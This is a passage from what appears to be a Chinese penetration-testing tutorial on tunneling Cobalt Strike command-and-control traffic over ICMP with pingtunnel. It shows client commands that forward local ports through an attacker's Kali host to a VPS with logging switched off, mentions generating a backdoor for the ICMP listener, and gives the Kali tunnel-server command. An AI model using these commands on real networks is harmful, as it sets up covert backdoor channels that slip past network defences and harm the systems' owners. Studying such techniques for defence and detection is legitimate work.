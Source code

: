 ```plain
pingtunnel.exe -type client -l 127.0.0.1:444 -s 192.168.4.1(kali) -t 192.168.4.1:333 -tcp 1 -noprint 1 -nolog 1
```

#### CS 绕过

[![](assets/1709193289-b6ef3a0527eccb8396f0bcf833a6e1d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228122322-1bf786a4-d5f1-1.png)

然后使用 icmp1 生成后门程序

kali 使用 pingtunnel 工具开启隧道服务：./pingtunnel -type server

windows 开启隧道将本地 5555 端口 icmp 协议数据转发到攻击机 IP 的 6666 端口上

```plain
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 192.168.4.1(kali) -t vps 地址:6666 -tcp 1 -noprint 1 -nolog 1
```

## 2.完全没有网络

内网环境

[![](assets/1709193289-eea6d47be2a7e833ebf75c7c0a081144.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228122340-267a6c4a-d5f1-1.png)
